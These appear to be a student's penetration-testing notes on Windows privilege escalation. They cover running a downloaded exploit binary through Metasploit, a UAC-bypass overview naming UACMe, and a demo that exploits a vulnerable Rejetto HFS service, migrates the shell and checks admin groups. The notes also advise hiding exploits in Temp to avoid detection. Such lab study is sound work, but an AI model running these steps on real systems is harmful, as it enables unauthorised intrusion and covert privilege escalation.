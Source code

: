 [M] means theres a metasploit module for it

--> Sometimes theres c code to use. Compile it and run on the system
--> or download the executable if it alrdy exists.

Note: Download exploits into Temp dir or rarely used dirs to avoid detection
```msfconsole
#onthe target session
cd Temp\\
upload ~/Downloads/41015.exe
dir
.\41015.exe 

#to use example
.\4105.exe 7

#after sometime a new shell with elevated priv is given
whoami
```


## Bypassing UAC

- User account control
- ie prompt appears to ask to continue installing etc (Do you want to allow this app to make changes)
- For windows vista onwards (7,8,10,11)

- Must have auth acct with priveledges available
- different levels of intergrity exist, low to high

Tools:
UACMe
--> a comprehensive list of methods for var windows vers
--> an exe that allows execution of payload with elevated priv (in this case Akagi)

Demo:
Service is running compromised version of Rejetto
```msfconsole
use exploit/windows/http/rejetto_hfs_exec
getuid
sysinfo
getprivs

#check available processes to migrate shell to
ps -S explorer.exe

migrate 2444

#try known methods but no permission to elevate
getsystem

#check local groups on system, priv not high enuf
shell
net localgroup administrators
```
